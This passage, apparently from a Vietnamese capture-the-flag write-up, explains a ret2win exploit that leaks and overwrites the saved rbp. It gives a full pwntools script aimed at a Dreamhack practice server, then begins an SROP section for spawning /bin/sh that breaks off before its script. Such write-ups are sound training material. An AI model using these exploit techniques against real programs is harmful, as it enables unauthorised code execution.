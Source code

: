 ```

- vì ta thấy hàm win trong binary → ret2win , vậy muốn ret2win thì làm như thế nào ?

ta không thể thay đổi được ret address . Tuy nhiên ta có thể thay đổi save rbp của nó , và ta cũng có thể điều khiển được chương trình 

- đầu tiên muốn làm dc điều đó thì ta cần leak vì địa chỉ stack là luôn động . thấy printf sẽ in đến khi gặp null bytes . nên ta có thể cho read nhập vào và sang hàm Nyang sẽ leak được địa chỉ cho ta
- lấy được rbp rồi thì mọi chuyện trở nên dễ dàng . ta sẽ lấy địa chỉ leak được canh chừng làm sao thay đổi để địa chỉ trỏ đúng hàm win mà ta đã nhập trong stack

script 

```
#!/usr/bin/python3
from pwn import *
context.binary = exe = ELF('./msnw',checksec=False)
p = process()
p = remote('host3.dreamhack.games', 23530)
#p.recvline()
payload = b'a'*1
payload = payload.ljust(304,b'a')
p.sendafter(b': ',payload)
p.recvuntil(b'a'*304)
leak = u64(p.recv(6).ljust(8,b'\x00'))
need = leak - 784
print("leak: ",hex(leak))
#gdb.attach(p)
input()
p.send(p64(exe.sym.Win)*38 + p64(need))

#leak = p.recvline()
#print(leak)
p.interactive()
```

----------

13 . SigReturn-Oriented Programming
------

có BOF , thiếu gadget → xài ROP

![image](https://hackmd.io/_uploads/rJEvoSsQ1l.png)

script : 

giải thích 1 chút về script , srop sẽ thiết lập các thanh ghi như ý muốn của ta → execve 

- rax = 0x3b ( sys reg ) , rdx rsi = 0 , rdi trỏ đến chứa địa chỉ trỏ đến /bin/sh  , rip sẽ là syscall
- đầu tiên ta overflow , thực hiện read /bin/sh vào rw address . tiếp theo đó là thực hiện execve(/bin/sh)


```
#!/usr/bin/python3
